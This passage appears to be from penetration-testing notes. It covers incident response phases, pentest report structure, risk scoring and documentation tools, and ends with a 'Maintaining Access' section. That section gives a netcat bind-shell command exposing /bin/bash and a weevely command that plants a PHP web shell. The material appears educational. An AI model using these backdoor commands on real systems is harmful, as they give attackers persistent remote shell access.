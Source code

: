 ### Incident Response
- Preparation
- Identification
- Containment
- Eradication
- Recovery
- Lessons learned

## Documentation and Reporting

### Report Structure
- Executive Summary
- Technical Summary
- Methodology
- Findings and Vulnerabilities
- Proof of Concept
- Recommendations
- Appendices

### Risk Scoring Methodologies
- CVSS (Common Vulnerability Scoring System)
- DREAD (Damage, Reproducibility, Exploitability, Affected users, Discoverability)
- Risk matrices

### Documentation Tools
```bash
# Screenshot tools
flameshot
scrot

# Screen recording
obs-studio

# Note taking
cherrytree
```

### Evidence Collection
- Screenshots
- Logs
- Command outputs
- Network captures
- Exploit code documentation

## Maintaining Access (For Testing Purposes)

### Backdoor Tools
```bash
# Netcat backdoor
nc -lvp 4444 -e /bin/bash

# Web shells
weevely generate password /var/www/html/shell.php
```
